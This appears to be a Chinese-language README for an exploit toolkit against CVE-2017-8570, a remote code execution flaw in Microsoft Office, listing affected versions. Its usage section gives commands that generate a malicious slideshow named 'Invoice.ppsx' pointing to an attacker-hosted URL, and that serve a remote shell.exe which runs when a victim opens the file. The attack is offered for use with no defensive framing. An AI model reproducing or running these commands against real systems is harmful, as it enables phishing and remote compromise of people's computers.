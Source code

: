 # CVE-2017-8570

## 说明

Script Moniker 远程代码执行漏洞

## 影响范围

* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2 (32-bit editions)
* Microsoft Office 2010 Service Pack 2 (64-bit editions)
* Microsoft Office 2013 RT Service Pack 1
* Microsoft Office 2013 Service Pack 1 (32-bit editions)
* Microsoft Office 2013 Service Pack 1 (64-bit editions)
* Microsoft Office 2016 (32-bit edition)
* Microsoft Office 2016 (64-bit edition)

## 用法

创建恶意文档

```
# python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.154.200/logo.doc
Generated Invoice.ppsx successfully
```

启动HTTP服务，监听指定端口

```
python cve-2017-8570_toolkit.py -M exp -e http://192.168.154.200/shell.exe -l /tmp/shell.exe
```

当受害者打开 Invoice.ppsx 即可执行 shell.exe，但是会有CMD窗口闪现

## 参考文章

* [Office CVE-2017-8570远程代码执行漏洞复现](http://www.freebuf.com/vuls/144054.html)

